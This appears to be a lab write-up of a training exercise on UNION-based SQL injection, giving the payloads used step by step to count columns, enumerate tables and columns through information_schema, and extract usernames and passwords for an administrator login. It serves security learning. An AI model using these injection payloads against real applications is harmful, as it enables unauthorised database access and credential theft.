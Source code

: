 # Lab 7: SQL Injection Attack – Listing the Database Contents (Non-Oracle Databases)

## Lab Overview

This lab contains a **SQL injection vulnerability** in the product category filter.  
The application's query results are reflected in the response, which allows exploitation via a **UNION-based SQL injection** to retrieve data from other tables.

---

## Objective

- Determine the **name of the table** containing usernames and passwords.
- Identify the **columns** in that table.
- Retrieve the **username** and **password** of all users.
- Use the administrator’s credentials to log in and solve the lab.

---

## How I Solved the Lab

1. **Found the injection point** in the product category filter.
2. **Determined the number of columns** using `NULL` placeholders:

    ```sql
    ' UNION SELECT NULL--+
    ' UNION SELECT NULL, NULL--+
    ```

3. **Listed all tables** in the database using the `information_schema.tables` view:

    ```sql
    ' UNION SELECT NULL, table_name FROM information_schema.tables--+
    ```

4. **Identified the target table** (looked for one containing `users` in the name).

5. **Listed the columns** for that table using `information_schema.columns`:

    ```sql
    ' UNION SELECT NULL, column_name 
      FROM information_schema.columns 
      WHERE table_name = 'users_xyz123'--+
    ```

6. **Retrieved usernames and passwords** from the identified table:

    ```sql
    ' UNION SELECT NULL, username_xyz || '~' || password_abc 
      FROM users_xyz123--+
    ```

    *(If MySQL, use `CONCAT(username_xyz, '~', password_abc)` instead of `||`)*

7. **Used `--+`** at the end of all payloads to properly comment out the rest of the SQL statement.

8. **Logged in as administrator** using the credentials found.

---

## Tips

- `information_schema.tables` → lists all tables in the database.
- `information_schema.columns` → lists all columns for a given table.
- Look for table names and column names that include `users` or similar.
- Concatenate values if only one column is reflected in the application output.
- Always match the number of columns in your UNION SELECT with the original query.

---

## Solution:

<img width="1278" height="594" alt="Screenshot (781)" src="https://github.com/user-attachments/assets/cea4f21f-d07d-4f05-910a-f178d84fbd34" />

<img width="1251" height="570" alt="Screenshot (782)" src="https://github.com/user-attachments/assets/59207a24-b0d0-4e14-bda5-69c10a8e97f8" />

<img width="1261" height="584" alt="Screenshot (783)" src="https://github.com/user-attachments/assets/9db5aab5-5362-4d54-86fd-ce2bb83337a5" />
